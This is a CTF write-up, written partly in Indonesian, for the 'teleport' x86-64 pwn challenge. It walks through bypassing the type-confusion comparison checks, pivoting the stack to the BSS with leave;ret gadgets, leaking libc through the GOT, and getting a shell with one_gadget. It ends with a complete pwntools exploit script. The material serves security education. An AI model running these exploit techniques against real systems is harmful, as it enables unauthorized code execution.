




# Rangkaian Digital

## Problem

### Description

> &#x20;Selamat datang di pertemuan mata kuliah Rangkaian Digital! Materi hari ini adalah bilangan biner!
>
> _nc 103.181.183.216 17003_
>
> * Hint 1: These leave instructions are so annoying man.... But I maybe able to use it to my advantage with that 2 byte overflow. Let me just teleport the stack around first to assemble my rop chain.&#x20;
> * Hint 2: this should help bypass cool\_thing2 and cool\_thing3 https://baseconvert.com/ieee-754-floating-point&#x20;
> * Hint 3: stack pivot ke akhir bss -> pake cool\_thing2 buat nyusun ropchain -> pindahin rbp buat leak libc pake cool\_thing3 -> pake got strstr buat gadget leave biar pivot ke bss lagi dan one\_gadget deh ato ngga ret2syscall

### Disclaimer


unsolved during the CTF, manage to solve after the event has ended


***

## Proof of Concept

### Analysis

given compiled binary and source code, we'll check its basic executable information and security perimeter. We're also given a Glibc version 2.35&#x20;


```bash
└─$ file teleport
teleport: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.35.so, for GNU/Linux 3.2.0, BuildID[sha1]=9c350546df6ebba5658300852f82a06cf9c9b667, not stripped

└─$ checksec --file=teleport
RELRO           STACK CANARY      NX            PIE
Partial RELRO   Canary found      NX enabled    No PIE
```


Next, lets take a look at the given source code


```c
#include <stdio.h>
#include <unistd.h>
#include <limits.h>
#include <string.h>

char anu[0x3000];

void init() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
}

void cool_thing3() {
	char buf[8];
	double a, b;
	printf("\nGive me one final pair of special numbers:\n> ");
	scanf("%lf %lf", &a, &b);
	
	if (a == b) {
		printf("Different numbers please!\n");
		return;
	} else if (*(int *)&a != *(int *)&b) {
		printf("Wrong!\n");
		return;
	}
	
	printf("\nHorray! Here's a present for you, if you need it...\n");
	printf("%ld\n", *(long *)(buf+8));
	read(0, buf, 26);
}

void cool_thing2() {
	char buf[32];
	long a, b;
	printf("\nGive me another two special numbers:\n> ");
	scanf("%ld %ld", &a, &b);
	
	if (a == b) {
		printf("Different numbers please!\n");
		return;
	} else if (*(int *)&a != *(float *)&b) {
		printf("Wrong!\n");
		return;
	}
	
	cool_thing3();
	printf("\nWell done hero! What's your name?\n");
	read(0, buf, 64);
}

void cool_thing1() {
	unsigned long a, b;
	printf("Give me two special numbers:\n> ");
	scanf("%lu %lu", &a, &b);
	
	if (a == b) {
		printf("Different numbers please!\n");
		return;
	} else if (a <= INT_MAX || b <= INT_MAX) {
		printf("Too small!\n");
		return;
	} else if (*(int *)&a != *(unsigned int *)&b) {
		printf("Wrong!\n");
		return;
	}
	
	// printf("\nCongrats! Can you explain what's happening here?\n");
	// read(0, anu, 16);
	cool_thing2();
}

char *useless_function() {
	char *hasil = strstr(anu, "y");
	return hasil;
}

int main() {
	init();
	cool_thing1();
}

```


The vulnerability is clearly a buffer overflow however the challenge presents us an obstacle that, namely two number _<mark style="color:yellow;">**a**</mark>_ and _<mark style="color:yellow;">**b**</mark>_ that needs to be same and different at the same time to be bypassed before we're able to do any ROP-ing. This proofed to be the hardest part since, during the event I was not able to bypass the checks on _<mark style="color:green;">**cool\_thing2()**</mark>_.

### Cross Data Type Comparison

to bypass the checks on _<mark style="color:green;">**cool\_thing1()**</mark>_ is easy, the first check makes sure the numbers has to be different and is done using 64 bit registers. However the third comparison is done using the 32 bit register. Thus we can supply a number of which in its hexadecimal representation has the same value on its lower bytes but different on its higher bytes, one that I used is:

> _<mark style="color:yellow;">**a**</mark>_ = <mark style="color:blue;">**0x7fffffffffffffff**</mark>
>
> _<mark style="color:yellow;">**b**</mark>_ = <mark style="color:blue;">**0x8fffffffffffffff**</mark>

We can this in action in GDB

<figure><figcaption><p>first check</p></figcaption></figure>

observe at both of our number stored on <mark style="color:orange;">**RDX**</mark> and <mark style="color:orange;">**RAX**</mark>, both compared to be not equal and passed the check

<figure><figcaption><p>third check</p></figcaption></figure>

both of our number is again loaded onto <mark style="color:orange;">**RAX**</mark> and <mark style="color:orange;">**RDX**</mark>, since it's using 32 bit, it is going to ignore all of the other higher bits, thus when the check is made, both number are considered the same and passed the check.&#x20;

for the checks on _<mark style="color:green;">**cool\_thing2()**</mark>_ to this day I was still unsure how it works and how to bypass it, I just used the numbers from the official writeup since I'm not too interested into it. For the checks on _<mark style="color:green;">**cool\_thing3()**</mark>_, I was able to bypass it using random value on my first try and don't bother any further :p

### Stack Pivoting

The existence of useless function though deemed useless at first, provide us the information of the existence of a large global variable called <mark style="color:blue;">**anu**</mark>, which immediately set as our pivot target.

upon completing all the comparison, on _<mark style="color:green;">**cool\_thing3()**</mark>_ we're given the stack canary and 2 byte overflow, this meant we can only jump to hard coded addresses since they all are made of 0x40XXXX (with X as the value we control). Thus we need to pivot somewhere for a larger payload. Sadly this time there's no <mark style="color:orange;">**`pop rsp;`**</mark> gadget which would make this trivial, for this we need to take advantage of another gadget: <mark style="color:orange;">**`leave; ret;`**</mark>&#x20;

the leave instruction always exist at the end of every routine before returning. To properly understand this, we need to translate the instruction to something we far more familiar of:

> <mark style="color:orange;">**leave**</mark> -> <mark style="color:yellow;">**mov rsp, rbp; pop rbp**</mark>
>
> <mark style="color:orange;">**ret**</mark> -> <mark style="color:red;">**pop rip**</mark>

this means, on every buffer overflows, we practically have control over <mark style="color:orange;">**RBP**</mark> thus <mark style="color:orange;">**RSP**</mark>. Let's try to overwrite it with our pivot target.


```python
# ...some code

pivot = elf.sym['anu'] + 0x3000
pivotPayload = flat({
    8 :[
        canary,
        pivot
    ]
}) + b'\x04\x14' # overwrite RIP to 0x401404
io.send(pivotPayload)
```



on normal execution, the routine will return to 0x40134d which is just above 0x401404. This will be completely fine if we dont overwrite it but we will do the pivoting again and on the 2nd one we won't have this. So it's a good practice to standardize where you'll be returning after your exploit for a potential next stage.&#x20;


<figure><figcaption><p>first stage of stack pivot</p></figcaption></figure>

we successfully controlled RBP, we just need another leave instruction to finally set our RSP to our destination. However let's check what the assembly code, what the program will do after it returns from _<mark style="color:green;">**cool\_thing3()**</mark>_ to _<mark style="color:green;">**cool\_thing2()**</mark>_

```asmatmel
00401404 LEA        RAX=>buffer,[RBP + -0x30]
00401408 MOV        EDX,64
0040140d MOV        RSI,RAX
00401410 MOV        EDI,0x0
00401415 CALL       <EXTERNAL>::read 
```

this is equivalent to the `read(0, buf, 64);` on the source code. Recall that since the stack is growing downwards, the program takes space relative to <mark style="color:orange;">**RBP**</mark> minus some value of the size. This means we have to set our pivot not exactly on <mark style="color:blue;">**anu**</mark> but at an offset to accommodate for the space the program wants to use so that we don't clobber with other data that is critical for the program execution


it's a great practice to take/put as much offset as possible since external calls will require large buffer size.


Next, we can pivot there nice... but without gadgets such as pop rdi and other trivial stuff, how can we craft our ropchain payload to leak Glibc addresses and achieve other stuff?

Observe the payload below


```python
# ...some code

ropPayload = flat([
    elf.got['__stack_chk_fail'],
    0x0401300,                   # printf("%ld\n", canary);, but instead of canary, now its [__stack_chk_fail] - 8
    cyclic(24),
    canary,
    pivot - 0x30,
    rop.find_gadget(['leave', 'ret']).address,
])
io.send(ropPayload)
```


For a better understanding, Let's visualise the our "stack" after the payload is sent.

<figure><figcaption><p>initial "stack" state after rop payload</p></figcaption></figure>

Next, at the of _<mark style="color:green;">**cool\_thing2()**</mark>_, the program eventually will run <mark style="color:orange;">**`leave; ret;`**</mark> which exist at the end of every functions. After that call the stack will look like this

<figure><figcaption><p>"stack" after first leave; ret;</p></figcaption></figure>

which again, because it it another <mark style="color:orange;">**`leave; ret;`**</mark> thus the program changes its stack and <mark style="color:orange;">**rsp**</mark> again.

<figure><figcaption><p>"stack" after second leave; ret;</p></figcaption></figure>

and thus the program continues its execution on 0x0401300. This whole crazy and complicated rop payload is just to accommodate for the missing and trivial <mark style="color:orange;">**pop rdi**</mark> and <mark style="color:orange;">**pop rsp**</mark> gadget which amazes me.

### Non-Trivial Leaking Glibc

Now why are we jumping there and what's the GOT table is all about? Let's take a look at the assembly below

```asmatmel
00401300         LEA        RAX=>buffer,[RBP + -0x10]
00401304         ADD        RAX,0x8
00401308         MOV        RAX=>kuki,qword ptr [RAX]
0040130b         MOV        RSI,RAX
0040130e         LEA        RAX,[DAT_00402095]                               
00401315         MOV        RDI=>DAT_00402095,RAX                           
00401318         MOV        EAX,0x0
0040131d         CALL       <EXTERNAL>::printf
```

this code is located on _<mark style="color:green;">**cool\_thing3()**</mark>_, which basically it prints whatever what ever on <mark style="color:orange;">**RBP**</mark> - 0x8.&#x20;

<figure><figcaption><p>GOT Table</p></figcaption></figure>

Inspecting the GOT table, if we were about to leak the runtime address for _<mark style="color:green;">**puts**</mark>_, then we need to supply the address for _<mark style="color:green;">**\_\_stack\_chk\_fail**</mark>_.

### Gaining Remote Code Execution

Next up since our execution continues at our convenience on _<mark style="color:green;">**cool\_thing3()**</mark>_ (where we started our pivoting), we start over our pivoting again and execute another ropchain. Since we have Glibc at our disposal we have the choice to utilise one\_gadget or call system or even make a syscall. For convenience purposes, one\_gadget is first tried and it works.

```python
# ....some code

# pivot again to anu
io.send(pivotPayload)

# final payload using one_gadgets
one_gadgets = [0x50a37, 0xebcf1, 0xebcf5, 0xebcf8]
ropPayload = flat({
    40: [
        canary,
        pivot, # rbp, doesn't matter since we're on final payload
        libc.address + one_gadgets[1]
    ]
})
io.send(ropPayload)
io.interactive()
```

<figure><figcaption><p>final payload and getting flag</p></figcaption></figure>

### Flag

_**hacktoday{jU5t\_tw05\_c0MpL3m3Nt\_4Nd\_Fl0at1n9\_p01nT\_r3pREs3nt4t10n\_pLU5\_t3l3P0rT1ng\_st4cK\_fr4me\_4R0uNd\_VA\_sp4C3}**_

***

## Appendix


```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './teleport'
elf = context.binary = ELF(exe, checksec=True)
libc = './libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'debug'
host, port = '103.181.183.216', 17003

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
break *0x40147e
break *0x4014d7

break *0x04013a4
break *0x04013ba

break *0x04012a9
break *0x04012dc

break *0x040134d

break *0x0401415
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
io = initialize()
rop = ROP(exe)

# first compare is on 4 byte register and they have to be the same
# second compare is on 8 byte register, and they have to be different
# a = 0x7fffffffffffffff
# b = 0x8fffffffffffffff
io.sendlineafter(b'>', b'9223372036854775807 10376293541461622783')

# i have no idea how this works
io.sendlineafter(b'>', b'1 1065353216')

# i also have no idea how this works
io.sendlineafter(b'>', b'123 321')

io.recvuntil(b'it...\n')
canary = int(io.recvline().strip())

# pivoting to anu (global variable), 0x3000 is mandatory to accomodate for large buffer the calls to libc functions
pivot = elf.sym['anu'] + 0x3000
pivotPayload = flat({
    8 :[
        canary,
        pivot
    ]
}) + b'\x04\x14' # overwrite RIP to 0x401404
io.send(pivotPayload)

# ROP-ing to leak libc 
ropPayload = flat([
    elf.got['__stack_chk_fail'],
    0x0401300,                   # printf("%ld\n", canary);, but instead of canary, now its [__stack_chk_fail] - 8
    cyclic(24),
    canary,
    pivot - 0x30,
    rop.find_gadget(['leave', 'ret']).address,
])
io.send(ropPayload)

# formatting libc
puts = int(io.recvline().strip())
libc.address = puts - libc.sym['puts']

# pivot again to anu
io.send(pivotPayload)

# final payload using one_gadgets
one_gadgets = [0x50a37, 0xebcf1, 0xebcf5, 0xebcf8]
ropPayload = flat({
    40: [
        canary,
        pivot, # rbp, doesn't matter since we're on final payload
        libc.address + one_gadgets[1]
    ]
})
io.send(ropPayload)

info('canary: %#x', canary)
info('libc base address: %#x', libc.address)

# gain shell?
io.interactive()
```

